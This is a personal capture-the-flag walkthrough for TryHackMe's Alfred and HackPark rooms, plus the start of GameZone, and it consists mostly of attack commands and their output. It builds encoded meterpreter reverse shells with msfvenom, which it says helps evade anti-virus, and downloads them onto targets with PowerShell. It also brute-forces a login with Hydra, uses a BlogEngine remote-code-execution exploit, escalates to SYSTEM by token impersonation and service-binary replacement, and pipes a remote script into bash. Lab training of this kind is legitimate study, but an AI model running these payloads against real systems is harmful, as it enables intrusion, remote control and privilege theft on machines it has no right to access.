Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,048 MB
Available Physical Memory: 1,184 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,106 MB
Virtual Memory: In Use:    989 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
[01]: KB976902
Network Card(s):           1 NIC(s) Installed.
[01]: AWS PV Network Device
Connection Name: Local Area Connection 2
DHCP Enabled:    Yes
DHCP Server:     10.10.0.1
IP address(es)
[01]: 10.10.182.88
[02]: fe80::213c:a811:3683:1200

   cmd.exe /c "dir /s *.txt"

   Directory of C:\Users\bruce\Desktop

   10/25/2019  11:22 PM                32 user.txt
   1 File(s)             32 bytes

   Total Files Listed:
   31 File(s)        962,634 bytes
   0 Dir(s)  20,426,162,176 bytes free

   PS C:\Users> type bruce\Desktop\user.txt
   79007a09481963edf2e1321abd9ae2a0
```

USER FLAG
>   PS C:\Users> type bruce\Desktop\user.txt 
> 79007a09481963edf2e1321abd9ae2a0

### Task4

10.10.79.89

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.79.89 LPORT=5555 -f exe -o rev.exe
└─# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.79.89 LPORT=5555 -f exe -o rev.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
  x86/shikata_ga_nai chosen with final size 381
  Payload size: 381 bytes
  Final size of exe file: 73802 bytes
  Saved as: rev.exe


```
This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

```powershell
# template
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:<port>/shell-name.exe','shell-name.exe')"


powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.79.89:8888/rev.exe','rev.exe')"
```
Before running this program, ensure the handler is set up in metasploit:

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell

Start-Process "shell-name.exe"

This should spawn a meterpreter shell for you!
```
└─# msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.79.89
LHOST => 10.10.79.89
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.79.89:5555
msf6 exploit(multi/handler) >

```

---
in jenkins run this 
http://10.10.182.88:8080/job/project/configure

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.79.89:8888/rev.exe','rev.exe')"

----

Going back to Power shell, trigger the exe file 
PS C:\Program Files (x86)\Jenkins\workspace\project> & .\rev.exe

 or this
Start-Process "rev.exe"


-----

going back to msfconsole
```
msf6 exploit(multi/handler) > jobs

Jobs
====

Id  Name                    Payload                          Payload opts
--  ----                    -------                          ------------
  0   Exploit: multi/handler  windows/meterpreter/reverse_tcp  tcp://10.10.79.89:5555

msf6 exploit(multi/handler) > job 0
[-] Unknown command: job
msf6 exploit(multi/handler) >
[*] Sending stage (175686 bytes) to 10.10.182.88
[*] Meterpreter session 1 opened (10.10.79.89:5555 -> 10.10.182.88:49384) at 2023-04-05 12:58:46 +0000

msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : ALFRED
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```
---

### Task 3 Privilege Escalation
```
C:\Program Files (x86)\Jenkins\workspace\project>whoami
whoami
alfred\bruce

C:\Program Files (x86)\Jenkins\workspace\project>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled

meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > getpid
Current pid: 1184
meterpreter > ps

Process List
============

PID   PPID  Name                  Arch  Session  User                          Path
---   ----  ----                  ----  -------  ----                          ----
0     0     [System Process]
4     0     System                x64   0
396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
684   580   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
772   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
848   668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
864   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
920   608   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
936   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
988   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
1012  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
1076  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
1184  2348  rev.exe               x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\workspace\project\rev.exe
1216  668   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
1244  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
1328  668   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
1404  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
1432  668   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
1460  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
1600  668   jenkins.exe           x64   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jenkins.exe
1612  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
1732  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
1808  1600  java.exe              x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bin\java.exe
1824  668   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
1856  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
1896  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
1924  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
2132  668   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
2288  772   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
2348  2592  powershell.exe        x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
2488  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
2592  1808  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
2688  668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe


meterpreter > migrate 772
[*] Migrating from 1184 to 772...
[*] Migration completed successfully.
meterpreter > pwd
C:\Windows\system32
meterpreter > cd config
meterpreter > ls
Listing: C:\Windows\system32\config
===================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100666/rw-rw-rw-  28672     fil   2019-10-25 21:46:26 +0000  BCD-Template
100666/rw-rw-rw-  25600     fil   2019-10-25 21:46:26 +0000  BCD-Template.LOG
100666/rw-rw-rw-  18087936  fil   2023-04-05 10:14:28 +0000  COMPONENTS
100666/rw-rw-rw-  1024      fil   2010-11-21 07:21:00 +0000  COMPONENTS.LOG
100666/rw-rw-rw-  13312     fil   2023-04-05 10:14:28 +0000  COMPONENTS.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 02:34:08 +0000  COMPONENTS.LOG2
100666/rw-rw-rw-  1048576   fil   2023-04-05 10:02:31 +0000  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.0.regtrans-ms
100666/rw-rw-rw-  1048576   fil   2023-04-05 10:02:31 +0000  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.1.regtrans-ms
100666/rw-rw-rw-  1048576   fil   2023-04-05 10:02:31 +0000  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.2.regtrans-ms
100666/rw-rw-rw-  65536     fil   2023-04-05 10:02:31 +0000  COMPONENTS{016888b8-6c6f-11de-8d1d-001e0bcde3ec}.TxR.blf
100666/rw-rw-rw-  65536     fil   2019-10-25 23:51:42 +0000  COMPONENTS{016888b9-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2019-10-25 23:51:42 +0000  COMPONENTS{016888b9-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2009-07-14 05:01:27 +0000  COMPONENTS{016888b9-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
100666/rw-rw-rw-  262144    fil   2023-04-05 10:31:07 +0000  DEFAULT
100666/rw-rw-rw-  1024      fil   2010-11-21 07:20:59 +0000  DEFAULT.LOG
100666/rw-rw-rw-  111616    fil   2023-04-05 10:31:07 +0000  DEFAULT.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 02:34:08 +0000  DEFAULT.LOG2
100666/rw-rw-rw-  65536     fil   2019-10-26 23:12:41 +0000  DEFAULT{016888b5-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2019-10-26 23:12:41 +0000  DEFAULT{016888b5-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2019-10-26 23:12:41 +0000  DEFAULT{016888b5-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
040777/rwxrwxrwx  0         dir   2009-07-14 02:34:57 +0000  Journal
040777/rwxrwxrwx  4096      dir   2023-04-05 10:30:49 +0000  RegBack
100666/rw-rw-rw-  262144    fil   2023-04-05 10:01:07 +0000  SAM
100666/rw-rw-rw-  1024      fil   2010-11-21 07:20:59 +0000  SAM.LOG
100666/rw-rw-rw-  21504     fil   2023-04-05 10:01:07 +0000  SAM.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 02:34:08 +0000  SAM.LOG2
100666/rw-rw-rw-  65536     fil   2019-10-26 23:12:41 +0000  SAM{016888c1-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2019-10-26 23:12:41 +0000  SAM{016888c1-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2019-10-26 23:12:41 +0000  SAM{016888c1-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
100666/rw-rw-rw-  262144    fil   2023-04-05 10:14:03 +0000  SECURITY
100666/rw-rw-rw-  1024      fil   2010-11-21 07:20:59 +0000  SECURITY.LOG
100666/rw-rw-rw-  21504     fil   2023-04-05 10:14:03 +0000  SECURITY.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 02:34:08 +0000  SECURITY.LOG2
100666/rw-rw-rw-  65536     fil   2019-10-26 23:12:41 +0000  SECURITY{016888c5-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2019-10-26 23:12:41 +0000  SECURITY{016888c5-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2019-10-26 23:12:41 +0000  SECURITY{016888c5-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
100666/rw-rw-rw-  38797312  fil   2023-04-05 13:09:02 +0000  SOFTWARE
100666/rw-rw-rw-  1024      fil   2010-11-21 07:21:00 +0000  SOFTWARE.LOG
100666/rw-rw-rw-  262144    fil   2023-04-05 13:09:02 +0000  SOFTWARE.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 02:34:08 +0000  SOFTWARE.LOG2
100666/rw-rw-rw-  65536     fil   2019-10-26 23:11:15 +0000  SOFTWARE{016888c9-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2019-10-26 23:11:15 +0000  SOFTWARE{016888c9-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2019-10-26 23:11:15 +0000  SOFTWARE{016888c9-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
100666/rw-rw-rw-  10485760  fil   2023-04-05 14:01:44 +0000  SYSTEM
100666/rw-rw-rw-  1024      fil   2010-11-21 07:20:59 +0000  SYSTEM.LOG
100666/rw-rw-rw-  262144    fil   2023-04-05 14:01:44 +0000  SYSTEM.LOG1
100666/rw-rw-rw-  0         fil   2009-07-14 02:34:08 +0000  SYSTEM.LOG2
100666/rw-rw-rw-  65536     fil   2019-10-26 23:11:16 +0000  SYSTEM{016888cd-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
100666/rw-rw-rw-  524288    fil   2019-10-26 23:11:16 +0000  SYSTEM{016888cd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288    fil   2019-10-26 23:11:16 +0000  SYSTEM{016888cd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
040777/rwxrwxrwx  4096      dir   2019-10-25 20:47:38 +0000  TxR
100666/rw-rw-rw-  70        fil   2019-10-26 11:36:00 +0000  root.txt
040777/rwxrwxrwx  4096      dir   2010-11-21 02:41:37 +0000  systemprofile


meterpreter > cat root.txt
dff0f748678f280250f25a45b8046b4a
```


## HackPark
> https://tryhackme.com/room/hackpark#

### SETUP
Standard Setup
```bash
# Setup
curl https://gist.githubusercontent.com/codeandrew/d637a2e045ab204c34c7df6ae163a429/raw/ba1406a2933db4cfb77681932c74ac364259abe9/thm-setup.sh | bash 

lhost=1.1.1.1
target=2.2.2.2
```

### RECON

```
nmap -sV -T4 -p- --min-rate 8888 $TARGET -vv -oN $TARGET.txt

grep -rni "open" $TARGET.txt


# Go To Login Page, Inspect Element get Request Payload 
$target/Account/login.aspx

 __VIEWSTATE=vdBmIqHDypaWGJUVTAaHmOPkC1ItFHL6SFcnE4or9tben7N32GAq74kls%2Bs4mtf3b7NQCyoT%2FZfMuCPJ%2BGszPY7MDP5cfLm4A2eoCV4TVygpnUefggVRliISqKNXKgT4fZv2hgoCKxUpaCYAga3wg9Z%2FTl2sliZc%2Fm0GFZkVJefcPhEW&__EVENTVALIDATION=L23jxs5MD%2B6BDOTWiq9%2BYvRS4NcuzTJ30J2nT2XvHuN3Q%2FrDkFDjq1gTZkWkG62HCh%2FuPL4ZCKPPljbqXk%2BCMWOs4uzn4skkRymTi16Gy69HM8tEHn%2BAAhMEGDj%2BL8s7wFyixoMWm2O%2Fn5nThdx%2BVQyEhW6bsJKUE3eFSRfOvnywPpgj&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=qweqwe&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed
```

### GAINING ACCESS

Once we know the payload and the target we will use Hydra for Brute forcing

```bash
# Now let's use hydra
`hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form "/path:<payload user=^USER^&password=^PASS^>:<failed keyword>"`


hydra -l admin -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/Account/login.aspx:__VIEWSTATE=LFKE3cy9%2Fc6WAMJBAHJS1aQKd6xI46IB30oo1j3bwvzWwZ2hIprzuj33VAq8rhdhozGuYjZFt3CNnAiOd%2FDnuvA3%2BUXmegF35PdbuSPkkGlyiyk47qhUBi9NG%2FTk9n%2Fo7WycDxAgYvNZhA4y6bi0os%2BcUfERaYCZyGZjfb2%2BoTUj%2FQ92ZmYzVlW3WC0REL81yYZKeJPjobj%2B2lnr%2BorOwOaUX9AegNNdzL3MVx%2Boy0%2FVfPPs%2BPpxq%2FeYJkVoH67Lm6%2FgFUXfFjAcRDp5qbzG1Jh%2BKStD6UupBQ2RKrlONx1Tj2opuWiH0RXFLG6z%2FYghUagqcK1vgBTEOiYCuc7KzofGVevUZ8OeTeYcc%2FQUm5NNDyTn&__EVENTVALIDATION=8ygPbwMXoYj0SuDczblp%2FCFalqTF5Ws%2B8rqh3ahjHxBM3epCHuQlnbPyoy%2F55SKziUhWNUpWEPsvHbGs1I%2BrvAjWWts15TPjZ%2Bbgo2jvf%2FCOPT9NmZr7704nZy3YSLW2WbzwkPHEHtrl1s1YWWkAtq1klQ0F5c9un8lVYsxI%2FsImxFYU&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"


Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-18 12:16:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.224.219:80/Account/login.aspx:__VIEWSTATE=LFKE3cy9%2Fc6WAMJBAHJS1aQKd6xI46IB30oo1j3bwvzWwZ2hIprzuj33VAq8rhdhozGuYjZFt3CNnAiOd%2FDnuvA3%2BUXmegF35PdbuSPkkGlyiyk47qhUBi9NG%2FTk9n%2Fo7WycDxAgYvNZhA4y6bi0os%2BcUfERaYCZyGZjfb2%2BoTUj%2FQ92ZmYzVlW3WC0REL81yYZKeJPjobj%2B2lnr%2BorOwOaUX9AegNNdzL3MVx%2Boy0%2FVfPPs%2BPpxq%2FeYJkVoH67Lm6%2FgFUXfFjAcRDp5qbzG1Jh%2BKStD6UupBQ2RKrlONx1Tj2opuWiH0RXFLG6z%2FYghUagqcK1vgBTEOiYCuc7KzofGVevUZ8OeTeYcc%2FQUm5NNDyTn&__EVENTVALIDATION=8ygPbwMXoYj0SuDczblp%2FCFalqTF5Ws%2B8rqh3ahjHxBM3epCHuQlnbPyoy%2F55SKziUhWNUpWEPsvHbGs1I%2BrvAjWWts15TPjZ%2Bbgo2jvf%2FCOPT9NmZr7704nZy3YSLW2WbzwkPHEHtrl1s1YWWkAtq1klQ0F5c9un8lVYsxI%2FsImxFYU&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed
[80][http-post-form] host: 10.10.224.219   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-18 12:17:12
```

Credentials are ` login: admin   password: 1qaz2wsx` 
now let's login and check the version 
http://$TARGET/admin/about.cshtml

it's Running `BlogEngine 3.3.6.0`

Now searching the Exploit-DB here's a verified RCE exploit 
https://www.exploit-db.com/exploits/46353

Change the exploit name to PostView.asc
Change the IP and port to your nc listener

edit a post, then click the folder Icon and upload the file. 
it will be uploaded here `/App_Data/files`

  > Finally, the vulnerability is triggered by accessing the base URL for the 
  > blog with a theme override specified like so:
  > http://10.10.10.10/?theme=../../App_Data/files
  
make sure have a nc listener running first
`nc -lvnp 4444`

Then access this `http://$target/?theme=../../App_Data/files`

**STABILIZING SHELL**

Once in, let's stabilize our reverse connection, 

First let's create msf listener
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 1.1.1.1 // our local ip
set LPORT 4446
run
```

now let's create the rev shell
```
export lhost=1.1.1.1
export lport=4446
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -e x86/shikata_ga_nai -f exe -o rev.exe
```

Using Python serve it `python3 -m http.server 8888`

then go back to our previous netcat listener and download it from there
```bat
cd C:\Windows\Temp
<!-- powershell -command "Invoke-WebRequest -Uri 'http://<IP>:<PORT>/rev.exe' -OutFile '.\rev.exe'" -->
powershell -command "Invoke-WebRequest -Uri 'http://1.1.1.1:8888/rev.exe' -OutFile '.\rev.exe'"
rev.exe
```

### PRIVILEGE ESCALATION
Now Let's go back to our MSF Listener

```
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

now we know that's using x64 now let's download winPeas to check how can we escalate our privilege.  
Going back to our local machine
```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220717/winPEASx64.exe 
mv winPEASx64.exe winPEAS.exe
```

Now let's upload this shit to the windows machine using msfconfole
```
cd c:\windows\temp
upload winPeas.exe
winPeas.exe
```

Check `Services Information`
`Interesting Services - non Microsoft`
```

=================================================================================================

WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
File Permissions: Everyone [WriteData/CreateFiles]
Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
System Scheduler Service Wrapper
=================================================================================================

<!-- For Double check -->
c:\Windows\Temp>
tasklist /svc | findstr /i windowsscheduler
c:\Windows\Temp>tasklist /svc | findstr /i windowsscheduler
WService.exe                  1432 WindowsScheduler
```

Now we know WService.exe has an Admin privileges, and Messages.exe is one of the services that it triggers with Admin Privilege

#### MSF LISTENER

Going back to our MSF Console make sure you have this settings
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.54.17
LHOST => 10.10.54.17
msf6 exploit(multi/handler) > set LPORT 4446
LPORT => 4446
msf6 exploit(multi/handler) > run
```
payload

```
export lhost=1.1.1.1
export lport=4446
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -e x86/shikata_ga_nai -f exe -o rev.exe
```

Go back to NC Terminal from that listen at 4444
```
cd c:\Program Files(x64)\SystemScheduler
rename Message.exe Message.bak
copy c:\windows\temp\rev.exe Message.exe
```

Now Wait for the Message.exe to be Executed You will have the Admin Shell
```
meterpreter > getuid
Server username: HACKPARK\Administrator
meterpreter > pwd
C:\PROGRA~2\SYSTEM~1
meterpreter > cd "c:\"

C:\
    meterpreter > search -f user.txt
    Found 1 result...
    =================

    Path                            Size (bytes)  Modified (UTC)
  ----                            ------------  --------------
  c:\Users\jeff\Desktop\user.txt  32            2019-08-04 18:57:10 +0000

  meterpreter > cat c:\Users\jeff\Desktop\user.txt
  [-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
  meterpreter > cat 'c:\Users\jeff\Desktop\user.txt'
  759bd8af507517bcfaede78a21a73e39
  meterpreter > search -f root.txt
  Found 1 result...
  =================

  Path                                     Size (bytes)  Modified (UTC)
  ----                                     ------------  --------------
  c:\Users\Administrator\Desktop\root.txt  32            2019-08-04 18:51:42 +0000

  meterpreter > cat 'c:\Users\Administrator\Desktop\root.txt'
  7e13d97f05f7ceb9881a3eb3d78d3e72
  meterpreter >
```

now you already have the flag let's try without the msf

#### NC LISTENER

Now let's try using netcat, instead of msf/meterpreter
```
export lhost=1.1.1.1
export lport=4444

msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=4444 -f exe -o ncrev
.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: ncrev.exe
```

upload ncrev.exe then change the message.exe
```
upload ncrev.exe
get back to batch shell 
cd c:\Program Files(x64)\SystemScheduler
rename Message.exe Message.bak
copy c:\windows\temp\ncrev.exe Message.exe
```

You will catch the Shell after Message.exe has been Executed

## GameZone 

> https://tryhackme.com/room/gamezone
> sqli, sql injections, sqlmap, burpsuite

### Recon
nmap -sVC -T4 --min-rate 8888 $rhost -vv 
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFJTi0lKi0G+v4eFQU+P+CBodBOruOQC+3C/nXv0JVeR7yDWH6iRsFsevDofWcq05MZBr/CDPCnluhZzM1psx+5bp1Eiv3ecO0PF1QjhAzsPwUcmFSG1zAg+S757M+RFeRs0Jw0WMev8N6aR3uBZQSDPwBHGps+mZZZRcsssckJGQCZ4Qg/6PVFIwNGx9UoftdMFyfNMU/TDZmoatzo/FNEJOhbR38dF/xw9s/HRhugrUsLdNHyBxYShcY3B0Y2eLjnnuUWhYPmLZqgHuHr+eKnb1Ae3MB5lJTfZf3OmWaqcDVI3wpvQK7ACC9S8nxL3vYLyzxlvucEZHM9ILBI7Ov
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKAU0Orx0zOb8C4AtiV+Q1z2yj1DKw5Z2TA2UTS9Ee1AYJcMtM62+f7vGCgoTNN3eFj3lTvktOt+nMYsipuCxdY=
|   256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL6LScmHgHeP2OMerYFiDsNPqgqFbsL+GsyehB76kldy
